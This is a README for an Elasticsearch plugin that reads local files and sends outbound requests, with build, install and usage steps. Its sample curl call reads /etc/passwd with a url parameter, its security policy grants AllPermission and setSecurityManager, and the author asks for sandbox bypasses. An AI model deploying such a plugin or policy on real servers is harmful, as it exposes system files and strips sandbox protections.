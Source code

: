 Elasticsearch plugin to read local files  and send request
===========================

## Compile and pack

Change the elasticsearch plugins version number in `elasticsearch/plugin-descriptor.properties`, here is 6.2.3.
Then
```
mvn clean package
cp target/elasticsearch-plugin-sample-6.6.0-SNAPSHOT.jar elasticsearch/
zip -r elasticsearch-plugin-sample-6.6.1-SNAPSHOT.zip elasticsearch
```

** Note **

You do not need to  package it in `elasticsearch` folder at the version `6.5.4` above, just pack it as:

```
# Firstly, change  the version number in descriptor file.

mvn clean package
cp target/elasticsearch-plugin-sample-6.6.0-SNAPSHOT.jar elasticsearch/
cd elasticsearch/
zip elasticsearch-plugin-sample-6.5.4-SNAPSHOT.zip elasticsearch-plugin-sample-*-SNAPSHOT.jar plugin-descriptor.properties plugin-security.policy
```

## Install

```
elasticsearch-plugin install file:///elasticsearch-plugin-sample-6.6.1-SNAPSHOT.zip
```

### Usage

```
curl "http://127.0.0.1:9200/_sample?path=/etc/passwd&url=http://google.com"
```


### Notice

This plugins ask for some other permissions in `elasticsearch/plugin-security.policy`  as below:

```
grant {
	permission java.lang.RuntimePermission "setSecurityManager";
	permission java.io.FilePermission "/etc/passwd", "read";
	permission java.security.AllPermission;
};
```
Use it before you known what you are doing.

This plugins cannot run any command, spawn any process or something like that, because the sandbox of elasticsearch do not allow, it allow:

```
FilePermissions(read,write)
SocketPermissions(connect, listen, accept)
URLPermission,PropertyPermission,...
```

If you know some way to bypass it, tell me please. :)


### Reference

https://spinscale.de/posts/2020-04-07-elasticsearch-securing-a-search-engine-while-maintaining-usability.html
https://github.com/codelibs/elasticsearch-plugin-sample
https://discuss.elastic.co/t/customize-java-security-manager-settings/72255
https://github.com/elastic/elasticsearch/blob/7.7/server/src/main/java/org/elasticsearch/bootstrap/ESPolicy.java
https://github.com/spinscale/talk-elasticsearch-security-manager-and-seccomp/blob/master/src/main/java/de/spinscale/security/samples/SecurityManagerSamples.java
https://blog.csdn.net/goodluck_mh/article/details/92845023








